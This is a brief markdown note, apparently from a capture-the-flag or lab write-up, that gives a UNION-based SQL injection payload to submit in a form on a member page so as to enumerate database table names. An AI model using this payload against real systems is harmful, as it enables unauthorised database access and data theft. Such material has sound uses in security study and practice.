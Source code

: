 #SQL

`/index.php?page=member`
* In form submit:
```
1 union select null,table_name from information_schema.tables
```

